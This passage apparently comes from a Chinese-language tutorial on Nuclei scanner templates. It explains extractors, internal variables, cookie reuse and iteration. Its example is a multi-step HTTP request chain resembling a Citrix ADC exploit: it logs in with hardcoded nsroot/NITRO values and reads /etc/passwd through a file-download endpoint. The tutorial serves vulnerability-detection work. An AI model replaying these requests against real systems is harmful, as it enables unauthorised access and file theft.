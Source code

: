 ```

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        group: 0
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body

internal表示这里定义的randkey将用于前面的请求

```
<a name="Q24XZ"></a>
## 1.2 第一次请求中所有链接，迭代作为第二个payload的多次请求
**关键点说明**<br />**1、使用关键值：**iterate-all: true说明要使用所有、匹配到的数据<br />2、使用提取器（extractors），对body基于正则表达式，使用匹配中的1（0表示匹配到的所有，1表示第一个圆括号中匹配的内容）<br />3、命名URLPath，并在第二个payload中<br />4、标记要做后续payload的替换internal: true
